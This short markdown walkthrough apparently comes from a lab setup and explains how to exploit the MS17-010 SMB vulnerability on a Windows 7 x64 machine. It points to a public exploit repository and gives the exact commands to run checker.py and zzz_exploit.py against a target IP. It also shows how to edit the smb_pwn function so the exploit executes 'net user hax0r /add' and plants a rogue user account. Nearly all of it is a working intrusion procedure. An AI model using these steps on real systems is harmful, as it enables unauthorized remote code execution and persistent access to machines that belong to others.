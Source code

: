 # MS17-010 Manualy

On Victim machine:


Windows 7 x64

Open share from unprivileged user.


On attacker machine: 

Download MS17-010 from Github:

https://github.com/worawit/MS17-010



To check if victim machine is vulnerable to MS17-010:

From MS17-010 directory :

At ‘checker.py’ script, update ‘USERNAME’ and ‘PASSWORD’ variable to relevance (unprivilege user) in the beginning of script.



Run Checker:

<b>python checker.py \<target ip\></b>


At ‘zzz_exploit.py’ script, update ‘USERNAME’ and ‘PASSWORD’ variable to relevance, and <b>‘def smb_pwn’</b> function to include command to execute:

  <b>service_exec(conn, r'cmd /c net user hax0r /add')</b>


To run ‘zzz_exploit.py’:


<b>python zzz_exploit.py \<target ip\> lsarpc</b>
